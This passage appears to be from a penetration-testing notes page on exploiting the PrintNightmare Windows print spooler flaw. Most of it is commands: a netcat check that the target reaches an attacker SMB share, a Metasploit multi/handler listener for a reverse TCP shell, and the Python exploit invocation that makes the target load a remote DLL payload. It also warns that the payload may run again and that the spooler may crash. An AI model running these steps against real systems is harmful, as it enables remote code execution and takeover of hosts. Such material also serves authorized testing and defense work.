 | Sometimes when removing the print drivers the dll will execute again. This means your payload will run again. | Nothing, just something to be aware of if you use a payload that adds a user or w.e.                                                                                                     |

### Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run MSRPRN_nobrute and try to connect to nc.

```bash
python3 MSRPRN_nobrute.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

![test_if_system_reaches_out](images/test_if_system_reaches_out.png)

### Exploit

{{% notice warning %}}
Depending on the dll you use/actions you preform the the spooler services can crashes/hangs. From my experience in these cases you wont be able to run printnightmare a second time if you did not restart the spooler service before hand. A way around this might be to follow the [Outflank advice](https://github.com/outflanknl/PrintNightmare) to use printnightmare to load a DLL that starts a second thread/process with a new DLL that contains the actual RCE/w.e. payload.
{{% /notice %}}

#### Setup a listener

##### Netcat

```bash
nc -nlvp 80
```

##### MSF multi handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload generic/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

#### Run printnightmare

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py  'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```
